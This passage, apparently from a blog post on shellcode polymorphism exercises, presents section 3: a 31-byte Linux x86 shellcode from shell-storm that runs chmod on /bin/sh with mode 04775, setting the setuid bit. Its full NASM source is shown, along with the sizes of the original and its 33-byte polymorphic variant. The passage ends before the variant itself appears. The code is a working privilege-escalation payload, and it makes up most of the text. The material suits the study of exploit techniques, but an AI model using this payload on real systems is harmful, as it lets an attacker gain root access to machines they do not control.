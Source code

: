 ![image](/assets/img/assigment6_2.gif)

## 3. Linux/x86 - chmod(//bin/sh ,04775); set sh +s

- Original shellcode size : 31 bytes
- Polymorphic shellcode size: 33 bytes (6% increase)
- Source code: [Linux/x86 - chmod(//bin/sh ,04775); set sh +s](http://shell-storm.org/shellcode/files/shellcode-550.php)

### Original Shellcode

{% highlight nasm linenos %}
global _start

_start:
    xor eax,eax
    xor ebx,ebx
    xor ecx,ecx
    push ebx
    push dword 0x68732f6e  ; hs/n
    push dword 0x69622f2f  ; ib//
    mov ebx,esp
    mov cx,0x9fd
    mov al,0xf
    int 0x80
    mov al,0x1
    int 0x80
{% endhighlight %}
